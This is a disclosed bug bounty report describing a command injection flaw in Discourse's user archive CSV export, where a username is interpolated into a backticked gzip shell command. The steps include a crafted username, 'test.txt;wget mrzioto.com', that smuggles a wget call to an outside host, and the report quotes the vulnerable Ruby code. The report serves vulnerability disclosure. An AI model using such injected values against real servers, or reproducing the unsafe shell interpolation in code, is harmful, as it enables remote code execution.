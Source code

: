 # Admin Command Injection via username in user_archive ExportCsvFile

## Report Details
- **Report ID**: 214022
- **URL**: https://hackerone.com/reports/214022
- **State**: Closed
- **Severity**: high
- **Submitted**: 2017-03-16T22:05:10.800Z
- **Disclosed**: 2017-05-13T21:25:53.259Z

## Reporter
- **Username**: ziot
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: discourse

## Vulnerability Information
When a user generates a backup of their posts, their username gets sent to the `ExportCsvFile` job. The username is placed inside of a gzip command in backticks. Although the application prevents special characters in usernames, an admin is able to make modifications to the database via the restore from backup feature. This allows an admin to escalate to command injection.

## Steps

 1. Login as an admin on try.discourse.org, e.g.
  * http://try.discourse.org/
 2. Make a backup of the website and download it.
 3. Extract the contents of the archive.
 4. Modify one of the usernames of an account you have access to:
  * test.txt;wget mrzioto.com
 5. Repackage the archive.
 6. Upload the modified archive.
 7. Restore from backup.
 8. Log into the account you just modified (you can login via email address, so the special characters won't prevent you from logging into it).
 9. Send the POST request for creating a user export archive:
  * http://34.205.246.2/export_csv/export_entity.json
  * POST: entity_type=user&entity=user_archive
 10. ---> You forced the server to make a wget leading to RCE/command injection.

## Code Flow

```
      file_name_prefix = if @entity == "user_archive"
        "#{@entity.split('_').join('-')}-#{@current_user.username}-#{Time.now.strftime("%y%m%d-%H%M%S")}"

      file_name = "#{file_name_prefix}-#{file.id}.csv"
      absolute_path = "#{UserExport.base_directory}/#{file_name}"

      `gzip -5 #{absolute_path}`
```

## Attachments
No attachments
